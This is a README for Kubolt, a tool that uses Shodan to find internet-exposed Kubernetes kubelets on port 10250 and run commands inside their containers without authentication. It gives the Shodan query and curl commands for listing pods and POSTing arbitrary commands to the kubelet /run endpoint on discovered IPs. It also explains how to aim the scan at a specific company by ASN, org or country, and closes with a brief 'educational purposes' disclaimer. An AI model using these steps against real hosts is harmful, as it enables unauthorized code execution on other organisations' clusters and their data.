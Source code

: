 # Wat?
**Kubolt** is simple utility to scan public unauthinticated kubernetes clusters and run commands inside containers

# Why?
If the cluster exposed port 10250 to internet it's possible to use getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) and run commands inside containers:
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:
The basic query is 
>ssl:true port:10250 404 

**Kubelet** use port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** ask Shodan by API for list of IP addresses and keep them for other OSINT actions :grin:

First, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contain `container` so we could run command inside it. 
```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You could list all the available pods from these requests:
```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You could target companies more accurate using Shodan filters like this:
- asn
- org
- country
- net


To do it use `--query` param like this:
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** use Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you will probably fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for educational purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.
